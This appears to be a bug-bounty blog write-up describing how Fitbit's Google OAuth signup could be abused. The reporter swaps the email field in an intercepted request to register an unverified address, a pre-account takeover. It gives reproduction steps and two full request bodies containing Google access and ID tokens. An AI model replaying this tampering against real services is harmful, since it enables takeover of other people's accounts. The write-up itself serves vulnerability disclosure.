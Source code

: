 +++
title = " Unauthorization of Oauth Token Leads to Pre Account Takeover without Verifying"
date = "2022-03-08"
author = "0xdroopy"


+++

## Summary 

On Fitbit official website I was able to register with any account without verifying the email because of the vulnerability Broken Authentication. This was due to the unauthorization of the Oauth token with respect to the email address which was being transferred to the server.

{{< image src="https://miro.medium.com/max/1400/1*3z3zxJj_GzArgT2SIy529w.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Functionalities
On fitbit.com there are 2 functionalities to register in the account. One is normal functionality of email address and password whereas other is the functionality of Oauth by which you can register using your google account. In the Oauth functionality, after logging through you would be directly be logged in to the account. Whereas in the normal functionality, you have to verify the email in order to go for further registration of details.
  
### Functionalities On Register Page
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### When Try to Register Using Normal Functionality
{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## The Unauthorization of Oauth Token

By logging through the Oauth Functionality, accounts.google.com sends the Oauth Token to the website who requested to be logged in using Google Functionality. Then the website authorize the token and thus extracts the email address fromit. The authorization of the Oauth Token and the Email Address go step by step till the end of the registration of the account. At the end the server uses the cookies same as the oauth token being provided for further logins.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

## Steps To Reproduce

1) Make Two New Google Accounts and name them as Account 1 and Account 2.

2) Go to https://accounts.fitbit.com/signup and now login with the Account 1 using Google Oauth Functionality.

3) Now after clicking next put your height , weight etc. and Start intercepting the requests.

4) After that Click Submit and in the burp suite change the email address from Account 1 to Account 2.
```json
email=testemailaddressforfit1%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF```

To -
```json
email=testemailaddressforfit2%40gmail.com&password=asuidahsdhaw&birthday=2006-03-08&emailSubscribe=true&firstName=Test&lastName=Account&gender=MALE&height=185.42&heightUnit=en_US&weight=65&weightUnit=METRIC&locale=en_US&localeLang=en&localeCountry=United+States&timezone=Asia%2FKolkata&legalTermsAccepted=true&googleUID=107045151452751939515&googleAccessToken=ya29.A0ARrdaM8eNFf87_O5ah4jQzQLQl8J7Guj7lcAvJul7Sae0OAAniUF-OSCYN4dbXNeLFxMNk-8EyfhbdiT9BlbIgujPCDPK3qqq0nWNjg_IUuEjAmTQgyZpdk6MQQsVzeTHEugRxsqFxjmXi8OEvxiC1bkOr4y&googleIdToken=eyJhbGciOiJSUzI1NiIsImtpZCI6ImQ2M2RiZTczYWFkODhjODU0ZGUwZDhkNmMwMTRjMzZkYzI1YzQyOTIiLCJ0eXAiOiJKV1QifQ.eyJpc3MiOiJhY2NvdW50cy5nb29nbGUuY29tIiwiYXpwIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwiYXVkIjoiNjI1NTg1NTMyODc3LW01dGgyMjEzZG5xcTZwNzIyZXNxN2hia2F2cmxpOXNkLmFwcHMuZ29vZ2xldXNlcmNvbnRlbnQuY29tIiwic3ViIjoiMTA3MDQ1MTUxNDUyNzUxOTM5NTE1IiwiZW1haWwiOiJ0ZXN0ZW1haWxhZGRyZXNzZm9yZml0MUBnbWFpbC5jb20iLCJlbWFpbF92ZXJpZmllZCI6dHJ1ZSwiYXRfaGFzaCI6IlpyQ2YyR09ZSVM3MENxVGszRlE1TkEiLCJpYXQiOjE2NDY3NDUzMDQsImV4cCI6MTY0Njc0ODkwNH0.qipJa4CC2UDuR8hzW0mIRtJ1-w3xPXZlY_UriCsCK86PcjrZYQ0O3W3FjXYYCel-Vv2LZg_20Qa7sb1vVgy5lceQR7QnUSWBMZoCUEkqaXfTZ8NAyF_Bm3inneDJRkLPuQxwJQRbA0PCqUew7b-Z2OZ10KeqzJqalYstjkAJMXnbd_UTwGdx8d8cdQxJ3dni-5boPvejaoj2qkOzriUYaqrQNZN3Z-UrE_5dV8ux98zAK8ejK3BRquZ0mPWpf_p48QrMYKec7QLahH4rDE1wq4tdQPJz5EZLtcEAwx9IlNKijzjyhKPSdNjRn7zlPxPL5Pqcf7e99gToq5Bjr0GK3w&client_id=228TQF

5) After Forwarding the request , you would be successfully signed up with the Account 2 Email address without verifying.

{{< image src="https://keepcodeclean.com/wp-content/uploads/2020/06/oauth.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

 
## Demonstration

{{<iframe width="420" height="315"
src="https://www.youtube.com/embed/DjbVqwm3DtI">
</iframe>}}

